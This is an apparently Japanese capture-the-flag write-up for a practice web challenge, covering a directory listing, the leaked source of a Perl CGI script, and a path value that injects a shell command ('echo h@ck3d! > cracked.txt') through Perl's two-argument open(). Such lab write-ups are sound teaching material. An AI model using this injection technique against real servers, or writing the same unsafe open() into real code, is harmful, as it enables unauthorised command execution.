

directory listingの脆弱性あり。  

```bash
$ curl https://ctfq.u1tramarine.blue/q26/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /q26</title>
 </head>
 <body>
<h1>Index of /q26</h1>
<ul><li><a href="/"> Parent Directory</a></li>
<li><a href="a_scandal_in_bohemia_1.txt"> a_scandal_in_bohemia_1.txt</a></li>
<li><a href="a_scandal_in_bohemia_2.txt"> a_scandal_in_bohemia_2.txt</a></li>
<li><a href="a_scandal_in_bohemia_3.txt"> a_scandal_in_bohemia_3.txt</a></li>
<li><a href="cracked.txt"> cracked.txt</a></li>
<li><a href="flag.txt"> flag.txt</a></li>
<li><a href="index.pl"> index.pl</a></li>
</ul>
</body></html>
```

フラグファイルを見てみる。  

```bash
$ curl https://ctfq.u1tramarine.blue/q26/flag.txt
FROG_CroakCroak

How about to try to see the source code?

$ curl https://ctfq.u1tramarine.blue/q26/index.pl/flag.txt
<!DOCTYPE html>
<html>
  <head>
    <title>A SCANDAL IN BOHEMIA</title>
  </head>
  <body>
    <h1>A SCANDAL IN BOHEMIA</h1>
    <div>
      <a href="/q26/index.pl/a_scandal_in_bohemia_1.txt">A SCANDAL IN BOHEMIA I</a>&nbsp;
      <a href="/q26/index.pl/a_scandal_in_bohemia_2.txt">A SCANDAL IN BOHEMIA II</a>&nbsp;
      <a href="/q26/index.pl/a_scandal_in_bohemia_3.txt">A SCANDAL IN BOHEMIA III</a>&nbsp;
    </div>
    <hr>
    <div>
FROG_CroakCroak<br>
<br>
How about to try to see the source code?<br>
    </div>
    <hr>
    <address>
      http://www.gutenberg.org/files/1661/1661-h/1661-h.htm
    </address>
  </body>
</html>
```

``index.pl``はURL末尾で指定されたファイルの中身をHTML用に整形しているようだ。では``index.pl``自身を渡してやればソースコードを覗けることになる。  
``curl``だと見にくいので、以下はブラウザで``https://ctfq.u1tramarine.blue/q26/index.pl/index.pl``を表示したものを一部抜粋。  

```pl
#!/usr/bin/perl
use CGI;

print <<'EOS';
Content-type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<head>
<title>A SCANDAL IN BOHEMIA</title>
</head>
<body>
<h1>A SCANDAL IN BOHEMIA</h1>
<div>
<a href="/q26/index.pl/a_scandal_in_bohemia_1.txt">A SCANDAL IN BOHEMIA I</a>&nbsp;
<a href="/q26/index.pl/a_scandal_in_bohemia_2.txt">A SCANDAL IN BOHEMIA II</a>&nbsp;
<a href="/q26/index.pl/a_scandal_in_bohemia_3.txt">A SCANDAL IN BOHEMIA III</a>&nbsp;
</div>
<hr>
<div>
EOS


# Can you crack me? :P
open(F,'cracked.txt');
my $t = <F>;
chomp($t);
if ($t eq 'h@ck3d!') {
print 'FLAG_****************<br><br>';
}
truncate('cracked.txt',0);
####


open(F,substr($ENV{'PATH_INFO'},1));

my $cgi = new CGI;
$cgi->charset('utf-8');
while(<F>) {
chomp;
s/FLAG_\w+/FLAG_****************/g;
print $cgi->escapeHTML($_)."<br>\n";
}

print <<'EOS';
</div>
<hr>
<address>
http://www.gutenberg.org/files/1661/1661-h/1661-h.htm
</address>
</body>
</html>
EOS
```

``$ENV{'PATH_INFO'}``は``https://ctfq.u1tramarine.blue/q26/index.pl/xxxxx``の末尾``/xxxxx``を指す。  
``open(F,substr($ENV{'PATH_INFO'},1));``にも脆弱性があり、https://www.ipa.go.jp/security/awareness/vendor/programmingv1/a04_01.html によれば外部コマンドを実行できてしまう。  

``https://ctfq.u1tramarine.blue/q26/index.pl/echo%20h@ck3d!%20%3E%20cracked.txt%20&&%20cat%20cracked.txt|``をアドレスバーに打ち込む。これは``echo h@ck3d! > cracked.txt && cat cracked.txt``と解釈され実行される。``%20&&%20cat%20cracked.txt``の部分は確認用なのでなくてもいい。  

  

この状態で``https://ctfq.u1tramarine.blue/q26/index.pl/flag.txt``にアクセスすることでフラグを入手。  

### 参考

- [ファイルオープン時のパスにご用心 | IPA](https://www.ipa.go.jp/security/awareness/vendor/programmingv1/a04_01.html)
